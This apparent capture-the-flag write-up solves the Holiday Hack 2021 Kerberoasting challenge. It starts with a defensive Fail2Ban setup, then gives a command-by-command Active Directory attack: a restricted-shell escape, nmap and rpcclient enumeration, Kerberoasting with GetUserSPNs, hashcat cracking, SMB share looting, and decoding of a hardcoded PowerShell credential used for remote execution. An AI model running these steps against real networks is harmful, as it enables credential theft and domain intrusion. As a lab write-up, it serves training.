

# 8) Kerberoasting on an Open Fire

_Difficulty:_  :evergreen_tree: :evergreen_tree: :evergreen_tree: :evergreen_tree: :evergreen_tree:

> Obtain the secret sleigh research document from a host on the Elf University
> domain. What is the first secret ingredient Santa urges each elf and reindeer
> to consider for a wonderful holiday season? Start by registering as a student
> on the ElfU Portal. Find _Eve Snowshoes_ in Santa's office for hints.

[ElfU Portal](https://register.elfu.org/)

Eve Snowshoes

> Hey there, how's it going? I'm Eve Snowshoes.  Lately I've been spending a
> lot of cycles worrying about what's going on next door.  Before that, I was
> checking out Fail2Ban.  It's this slick log scanning tool for Apache web
> servers.  If you can complete this terminal challenge, I’d be happy to give
> you some things I’ve learned about Kerberoasting and Active Directory
> permissions!  Why don't you do some work with Fail2Ban on this Cranberry Pi
> terminal first, then we’ll talk Kerberoasting and Active Directory. OK?

```text
ElfU Registration Portal
New Student Domain Account Creation Successful!  You can now access the student
network grading system by SSH'ing into this asset using the command below:

ssh psmifmgudo@grades.elfu.org -p 2222

ElfU Domain Username: psmifmgudo
ElfU Domain Password: Bkexzxrqk@

```

```text
2021-12-28 17:42:35 Login from 197.97.249.10 successful
2021-12-28 17:42:36 44.167.29.212: Request completed successfully
2021-12-28 17:42:36 Valid heartbeat from 51.171.20.230
2021-12-28 17:42:37 16.236.241.10: Request completed successfully
2021-12-28 17:42:37 Login from 196.50.240.87 successful
2021-12-28 17:42:37 Valid heartbeat from 120.181.218.234
2021-12-28 17:42:38 Login from 20.34.6.37 successful
2021-12-28 17:42:38 Valid heartbeat from 137.205.167.229
...
```

```sh
cat <<EOF > /etc/fail2ban/filter.d/filter_hohoho.conf
[Definition]
failregex = Failed login from <HOST> for .*$
            Login from <HOST> rejected due to unknown user name$
            Invalid heartbeat .* from <HOST>$
            <HOST> sent a malformed request?
EOF

cat <<EOF > /etc/fail2ban/action.d/action_hohoho.conf
[Definition]
actionban = /root/naughtylist add <ip>
actionunban = /root/naughtylist del <ip>
actionstop =  /root/naughtylist clear
EOF

cat <<EOF > /etc/fail2ban/jail.d/jail_hohoho.conf
[hohoho_jail]
enabled = true
logpath = /var/log/hohono.log
findtime = 60m
maxretry = 10
filter = filter_hohoho
action = action_hohoho
EOF

fail2ban-client -d

# fail2ban-regex /var/log/hohono.log \
     /etc/fail2ban/filter.d/filter_hohoho.conf
```



Eve Snowshoes:

> Fantastic! Thanks for the help!  Hey, would you like to know more about
> Kerberoasting and Active Directory permissions abuse?  There's a great
> [talk][chris-davis-talk] by Chris Davis on this exact subject!  There are
> also plenty of resources available to learn more about
> [Kerberoasting][kerberoasting] specifically.  If you have any trouble finding
> the domain controller on the 10.X.X.X network, remember that, when not
> running as root, nmap default probing relies on connecting to TCP 80 and 443.
> Got a hash that won't crack with your wordlist?
> [OneRuleToRuleThemAll.rule][onetorulethemall] is a great way to grow your
> keyspace.  Where'd you get your wordlist? [CeWL][cewl] might generate a great
> wordlist from the ElfU website, but it will ignore digits in terms by
> default.  So, apropos of nothing, have you ever known system administrators
> who store credentials in scripts? I know, I know, you understand the folly
> and would never do it!  The easy way to investigate Active Directory
> misconfigurations (for Blue and Red alike!) is with [Bloodhound][bloodhound],
> but there are [native][native] [methods][methods] as well.  Oh, and one last
> thing: once you've granted permissions to your user, it might take up to five
> minutes for it to propogate throughout the domain.

[chris-davis-talk]: https://www.youtube.com/watch?v=iMh8FTzepU4
[kerberoasting]: https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a

[onetorulethemall]: https://github.com/NotSoSecure/password_cracking_rules
[cewl]: https://github.com/digininja/CeWL
[bloodhound]: https://github.com/BloodHoundAD/BloodHound
[native]: https://social.technet.microsoft.com/Forums/en-US/df3bfd33-c070-4a9c-be98-c4da6e591a0a/forum-faq-using-powershell-to-assign-permissions-on-active-directory-objects?forum=winserverpowershell
[methods]: https://www.specterops.io/assets/resources/an_ace_up_the_sleeve.pdf

Escape the grading system with Ctrl-D,
then in Python spawn a shell `import pty; pty.spawn("/bin/bash")`:

```python
import pty
pty.spawn('/bin/bash')
```

In bash you can change the login shell to 'bash' with
`chsh --shell /bin/bash psmifmgudo`

As `nmap` is present, look for a potential DC:

```bash
$ klgvjptkqc@grades:~$ nmap -p 389 --open 172.17.0.*
Starting Nmap 7.80 ( https://nmap.org ) at 2021-12-28 16:31 UTC
Nmap scan report for 172.17.0.3
Host is up (0.00046s latency).

PORT    STATE SERVICE
389/tcp open  ldap

$ $ smbclient -L 172.17.0.3
Enter WORKGROUP\klgvjptkqc's password:

  Sharename       Type      Comment
  ---------       ----      -------
  netlogon        Disk
  sysvol          Disk
  elfu_svc_shr    Disk      elfu_svc_shr
  research_dep    Disk      research_dep
  IPC$            IPC       IPC Service (Samba 4.3.11-Ubuntu)
SMB1 disabled -- no workgroup available

$ rpcclient -U klgvjptkqc 172.17.0.3
Enter WORKGROUP\klgvjptkqc's password:
$> querydominfo
Domain: ELFU
Server:
Comment:
Total Users: 505
Total Groups: 18
Total Aliases: 33

rpcclient $> getdompwinfo
min_password_length: 7
password_properties: 0x00000001
    DOMAIN_PASSWORD_COMPLEX

$> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44f]
group:[RemoteManagementDomainUsers] rid:[0x453]
group:[ResearchDepartment] rid:[0x454]
group:[File Shares] rid:[0x5e7]
```

```shell
$ /usr/local/bin/GetUserSPNs.py -outputfile spns.txt -dc-ip 172.17.0.3 ELFU/klgvjptkqc:'Hrtthvtul@' -request:who
[-] list index out of range

$ /usr/bin/python3  /usr/local/bin/GetUserSPNs.py -outputfile spns.txt ELFU.local/klgvjptkqc:'Hrtthvtul@' -request

$ /usr/bin/python3  /usr/local/bin/GetUserSPNs.py -outputfile spns.txt ELFU.local/klgvjptkqc:'Hrtthvtul@' -request
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

ServicePrincipalName                 Name      MemberOf  PasswordLastSet             LastLogon                   Delegation
-----------------------------------  --------  --------  --------------------------  --------------------------  ----------
ldap/elfu_svc/elfu                   elfu_svc            2021-10-29 19:25:04.305279  2021-12-28 17:01:52.916386
ldap/elfu_svc/elfu.local             elfu_svc            2021-10-29 19:25:04.305279  2021-12-28 17:01:52.916386
ldap/elfu_svc.elfu.local/elfu        elfu_svc            2021-10-29 19:25:04.305279  2021-12-28 17:01:52.916386
ldap/elfu_svc.elfu.local/elfu.local  elfu_svc            2021-10-29 19:25:04.305279  2021-12-28 17:01:52.916386
```

CeWL wordlist creation:
`docker run -it --rm cewl  --verbose -o https://register.elfu.org > wordlist`

```sh
$ hashcat  -m 13100 spns.txt  \
        -r OneRuleToRuleThemAll.rule \
        --force -O wordlist.txt --show
$krb5tgs$23$*elfu_svc$ELFU.LOCAL$ELFU.local/elfu_svc*$6aca036b...cd1d1fa6d34253e:Snow2021!
```

```sh
smbclient  \\\\SHARE30\\elfu_svc_shr\\ -U elfu_svc
Enter WORKGROUP\elfu_svc's password:
Try "help" to get a list of possible commands.
smb: \> prompt off
smb: \> mget *


$ cat *.ps1 | grep -i password | grep -i secstr
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7

$ grep SecStringPassword *
GetProcessInfo.ps1:$SecStringPassword = "76492....d111
GetProcessInfo.ps1:$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
```

```powershell
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADD
IANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQQ
A5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock { Get-Process } -Credential $aCred -Authentication Negotiate
```

Verify working / credentials are valid:

```sh
$ pwsh GetProcessInfo.ps1

 NPM(K)    PM(M)      WS(M)     CPU(s)      Id  SI ProcessName PSComputerName
 ------    -----      -----     ------      --  -- ----------- --------------
      9     4.31      10.10       0.00    3520   0 conhost     10.128.1.53
     21     2.33       5.43       0.00     600   0 csrss       10.128.1.53
```

```pwsh
[System.Net.NetworkCredential]::new("", $password).Password
A1d655f7f5d98b10!
```

**User:** `elfu.local\remote_elf` **Password:**  `A1d655f7f5d98b10!`

```powershell
PS C:\Users\remote_elf> Get-ADDomainController

ComputerObjectDN           : CN=DC01,OU=Domain Controllers,DC=elfu,DC=local
DefaultPartition           : DC=elfu,DC=local
Domain                     : elfu.local
Enabled                    : True
Forest                     : elfu.local
HostName                   : DC01.elfu.local

```

```powershell
PS C:\Users\remote_elf> Get-ADPrincipalGroupMembership remote_elf

distinguishedName : CN=Domain Users,CN=Users,DC=elfu,DC=local
GroupCategory     : Security
GroupScope        : Global
name              : Domain Users
objectClass       : group
objectGUID        : ef709df5-a3b4-490f-b9a3-e31aff5e001a
SamAccountName    : Domain Users
SID               : S-1-5-21-2037236562-2033616742-1485113978-513

distinguishedName : CN=Remote Management Users,CN=Builtin,DC=elfu,DC=local
GroupCategory     : Security
GroupScope        : DomainLocal
name              : Remote Management Users
objectClass       : group
objectGUID        : 2bf02c64-912e-4269-adee-390138152f29
SamAccountName    : Remote Management Users
SID               : S-1-5-32-580

distinguishedName : CN=Remote Management Domain Users,CN=Users,DC=elfu,DC=local
GroupCategory     : Security
GroupScope        : Global
name              : Remote Management Domain Users
objectClass       : group
objectGUID        : 1b5a9193-120a-4c4c-aef4-61b008abed31
SamAccountName    : RemoteManagementDomainUsers
SID               : S-1-5-21-2037236562-2033616742-1485113978-1107
```

or

```powershell
PS C:\Users\remote_elf>  (New-Object System.DirectoryServices.DirectorySearcher("(&(objectCategory=User)(samAccountName=$($env:username)))")).FindOne().GetDirectoryEntry().memberOf
CN=Remote Management Domain Users,CN=Users,DC=elfu,DC=local
CN=Remote Management Users,CN=Builtin,DC=elfu,DC=local
```

```sh
$ ping DC01.elfu.local
PING DC01.elfu.local (10.128.1.53) 56(84) bytes of data.
64 bytes from hhc21-windows-dc.c.holidayhack2021.internal (10.128.1.53): icmp_seq=1 ttl=127 time=0.969 ms
64 bytes from hhc21-windows-dc.c.holidayhack2021.internal (10.128.1.53): icmp_seq=2 ttl=127 time=0.277 ms
```

```sh
smbclient  \\\\SHARE30\\research_dep\\  -U 'elfu\psmifmgudo'
Enter ELFU\psmifmgudo's password:
```

```sh
scp -P 2222  psmifmgudo@grades.elfu.org:/home/psmifmgudo/SantaSecretToAWonderfulHolidaySeason.pdf .
```
